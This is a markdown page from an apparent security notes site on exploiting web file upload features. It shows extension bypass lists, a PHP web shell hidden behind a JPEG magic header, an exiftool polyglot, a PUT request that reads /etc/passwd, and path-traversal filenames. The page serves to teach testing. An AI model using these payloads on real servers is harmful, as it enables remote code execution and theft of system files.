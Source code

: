 ```yaml
---
title: "File Upload Vulnerabilities"
weight: 9
description: "Understand how to exploit file upload functionalities through flawed validation, misconfigurations, race conditions, and other advanced techniques."
---
```


# File Upload Vulnerabilities

Improper handling of file uploads is a common security weakness in web applications. If not carefully validated, uploaded files can lead to remote code execution (RCE), cross-site scripting (XSS), and other types of attacks.

{{< hint style=warning >}}
**Warning**: By default, servers do not execute uploaded files unless they are explicitly configured to do so.
{{< /hint >}}

## Flawed File Validation

Poor validation allows attackers to bypass filters and upload dangerous files.

### Content-Type Bypass

Change `Content-Type` to an allow MIME type. (e.g. `image/jpeg`)

### Dangerous File Extensions

Some file extensions are known to trigger execution on the server. Even if certain types are blacklisted, you can still try alternate or obfuscated extensions:

```sh
# Common dangerous extensions
.php
.php3
.php4
.php5
.phtml
.phar

# Obfuscation examples
exploit.pHp
exploit.php.jpg
exploit.php.
exploit%2Ephp
exploit.asp;.jpg
exploit.asp%00.jpg
exploit.p.phphp
```

### File Content Validation

Even if the extension is valid, some servers validate the file content using magic numbers (specific byte patterns at the start of files).

| File     | Hex Signature                       | ISO 8859-1   |
| -------- | ----------------------------------- | ------------ |
| PNG      | 89 50 4E 47 0D 0A 1A 0A             | ‰PNG␍␊␚␊     |
| JPG/JPEG | FF D8 FF EE                         | ÿØÿî         |
| JPG/JPEG | FF D8 FF E0                         | ÿØÿà         |
| JPG/JPEG | FF D8 FF E0 00 10 4A 46 49 46 00 01 | ÿØÿà␀␐JFIF␀␁ |
| PDF      | 25 50 44 46 2D                      | %PDF-        |

You can still inject malicious code using a valid header:

```php
ÿØÿî
<?php echo system($_GET['cmd']); ?>
```

### Polyglot Files

Create a polyglot JPEG file containing malicious code within its metadata

```sh
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```

This works if you can upload a php extension file. This works why you have a real image file (that bypass restrictions) but when you open the image it's executed as php script.

## Overriding Server Configuration

Many servers allow configuration files in directories to override global settings. Web servers use them when present, but they're not accessible via HTTP requests.

If the file extension is blacklisted, you might trick the server into mapping a custom file extension to an executable MIME type.

* Apache servers → `.htaccess`
* Example: `AddType application/x-httpd-php .<EXTENSION>`

## PUT Method Exploitation

Some servers support the HTTP `PUT` method for uploading files directly.

```http
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/etc/passwd'); ?>
```

## Path Traversal + File Upload

If execution is blocked in the upload directory but the web server use the filename field in the request to determine the file’s name and location, you can try to escape using path traversal in the `filename` field:

```http
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
```

{{< hint style=tips >}}
**Tip**: If directory traversal is filtered, try encoding it: `filename="..%2fexploit.php"`.
{{< /hint >}}

## Upload Without RCE

Even without remote code execution, you can still cause harm:

- Upload `.html` or `.svg` files with embedded JavaScript → **Stored XSS**
- Upload XML files like `.docx`, `.xlsx` → Possible **XXE injection**

## Race Conditions in File Uploads

In some setups, files are uploaded and scanned (e.g., with antivirus) before being permanently stored. During this short window, the file may exist temporarily on disk and you could potentially execute it.

- Race conditions
- Difficult to detect

### Exploiting URL-Based Uploads

If a file is loaded into a temporary directory with a randomized name, it should be impossible for an attacker to exploit any race conditions.

* If the randomized directory name is generated using pseudo-random functions like PHP's `uniqid()`, it can potentially be brute-forced.
  * Try to extend the amount of time taken to process the file by uploading a larger file
* If it is processed in chunks, you can potentially take advantage of this by creating a malicious file with the payload at the start, followed by a large number of arbitrary padding bytes.